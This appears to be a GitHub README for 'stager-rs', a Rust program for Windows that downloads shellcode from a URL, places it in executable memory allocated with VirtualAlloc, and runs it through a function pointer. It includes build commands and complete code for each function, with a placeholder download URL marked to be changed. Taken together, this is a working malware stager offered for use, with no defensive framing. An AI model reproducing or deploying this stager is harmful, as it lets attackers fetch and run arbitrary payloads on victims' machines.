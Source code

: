 # stager-rs

This program allocates executable memory, downloads shellcode from a URL, writes the shellcode to that memory, and executes it.

## Build Instructions

__Compiling from Windows__ : `cargo build --release`


This will generate a binary located at:

```
target/release/stager.exe
```

__Compiling from Unix-based Systems__:  `cargo build --target x86_64-pc-windows-gnu --release`

This will generate a binary located at:

```bash
target/x86_64-pc-windows-gnu/release/stager.exe
```

## Detailed Breakdown

### 1. `fetch_payload(url: &String) -> Result<Vec<u8>, Box<dyn Error>>`

This function sends an HTTP GET request to the specified URL and retrieves the response body, which is expected to be the shellcode. It converts the response bytes into a `Vec<u8>` for further processing.

```rust
fn fetch_payload(url: &String) -> Result<Vec<u8>, Box<dyn Error>> {
    let client = Client::new();
    let response = client.get(url).send()?;
    let shellcode = response.bytes()?.to_vec();

    Ok(shellcode)
}
```

- The `reqwest::blocking::Client` is used for synchronous HTTP requests.
- The shellcode is fetched as raw bytes and returned as a vector.

### 2. `allocate_memory(dwsize: usize) -> *mut u8`

This function allocates memory for the shellcode using `VirtualAlloc`. The memory is allocated with `MEM_COMMIT` and `MEM_RESERVE` flags, and the protection is set to `PAGE_EXECUTE_READWRITE`.

```rust
unsafe fn allocate_memory(dwsize: usize) -> *mut u8{
    VirtualAlloc(
        None,
        dwsize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    ) as *mut u8
}
```

- `dwsize` is the size of the memory to allocate, based on the length of the shellcode.
- The `VirtualAlloc` function is called with the appropriate flags to allocate memory that can be executed.

### 3. `execute_payload(shellcode: &[u8], pointer: *mut u8) -> Result<(), Box<dyn Error>>`

In this function, the shellcode is copied into the allocated memory, and the memory is treated as a function pointer for execution.

```rust
unsafe fn execute_payload(shellcode: &[u8], pointer: *mut u8) -> Result<(), Box<dyn Error>> {
    pointer.copy_from_nonoverlapping(shellcode.as_ptr(), shellcode.len());

    let func: extern "stdcall" fn() = std::mem::transmute(pointer);

    func();
    
    Ok(())
}
```

- `copy_from_nonoverlapping` is used to copy the shellcode into the allocated memory.
- The memory is then cast into an executable function pointer using `std::mem::transmute`.
- The shellcode is executed by calling the function pointer.

### 4. `main`

The `main` function coordinates the program:

```rust
fn main() {
    unsafe {

        let url = String::from("http://127.0.0.1:8080/shellcode"); // CHANGE THIS LINE
        let shellcode = fetch_payload(&url).unwrap();
        let dwsize = shellcode.len();
        let pointer = allocate_memory(dwsize);

        execute_payload(&shellcode, pointer);
    }
}
```

- It sets the URL for the shellcode (`http://127.0.0.1:8080/shellcode`) — this URL should point to the location where the shellcode is hosted.
- It then calls the previously defined functions to fetch, allocate memory, and execute the shellcode.

## Example Output

![screenshot](https://github.com/user-attachments/assets/ef470625-4c69-4b66-b1a2-fb9967367b8c)

